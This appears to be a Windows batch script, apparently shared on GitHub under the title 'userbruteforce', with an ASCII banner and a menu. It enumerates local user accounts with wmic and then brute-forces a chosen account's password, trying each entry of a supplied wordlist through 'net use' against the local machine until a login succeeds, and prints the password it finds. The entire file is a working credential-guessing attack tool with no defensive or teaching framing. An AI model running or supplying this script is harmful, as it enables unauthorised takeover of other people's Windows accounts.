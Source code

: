 @echo off
title userbruteforce - Ebola Man
setlocal enabledelayedexpansion
chcp 65001 >nul
:start
cls
set error=-
color F
set user=""
set wordlist=""
echo.
echo      ___.                 __          _____                           
echo      \_ ^|_________ __ ___/  ^|_  _____/ ____\___________   ____  ____  
echo       ^| __ \_  __ \  ^|  \   __\/ __ \   __\/  _ \_  __ \_/ ___\/ __ \ 
echo       ^| \_\ \  ^| \/  ^|  /^|  ^| \  ___/^|  ^| (  ^<_^> )  ^| \/\  \__\  ___/ 
echo       ^|___  /__^|  ^|____/ ^|__^|  \___  ^>__^|  \____/^|__^|    \___  ^>___  ^>
echo           \/                       \/                        \/    \/ 
echo.
echo    ╔════════════════════╗
echo    ║  COMMANDS:         ║
echo    ║                    ║
echo    ║  1. List Users     ║
echo    ║  2. Bruteforce     ║
echo    ║  3. Exit           ║
echo    ╚════════════════════╝
:input
set /p "=>> " <nul
choice /c 123 >nul

if /I "%errorlevel%" EQU "1" (
  echo.
  echo.
  wmic useraccount where "localaccount='true'" get name,sid,status
  goto input
)

if /I "%errorlevel%" EQU "2" (
  goto bruteforce
)

if /I "%errorlevel%" EQU "3" (
  exit
)

:bruteforce
set /a count=1
echo.
echo.
echo [TARGET USER]
set /p user=">> "
echo.
echo [PASSWORD LIST]
set /p wordlist=">> "
if not exist "%wordlist%" echo. && echo [91m[%error%][0m [97mFile not found[0m && pause >nul && goto start
net user %user% >nul 2>&1
if /I "%errorlevel%" NEQ "0" (
  echo.
  echo [91m[%error%][0m [97mUser doesn't exist[0m
  pause >nul
  goto start
)
net use \\127.0.0.1 /d /y >nul 2>&1
echo.
for /f "tokens=*" %%a in (%wordlist%) do (
  set pass=%%a
  call :varset
)
echo.
echo [91m[%error%][0m [97mPassword not found[0m
pause >nul
goto start

:success
echo.
echo [92m[+][0m [97mPassword found: %pass%[0m
net use \\127.0.0.1 /d /y >nul 2>&1
set user=
set pass=
echo.
pause >nul
goto start

:varset
net use \\127.0.0.1 /user:%user% %pass% 2>&1 | find "System error 1331" >nul
echo [ATTEMPT %count%] [%pass%]
set /a count=%count%+1
if /I "%errorlevel%" EQU "0" goto success
net use | find "\\127.0.0.1" >nul
if /I "%errorlevel%" EQU "0" goto success 
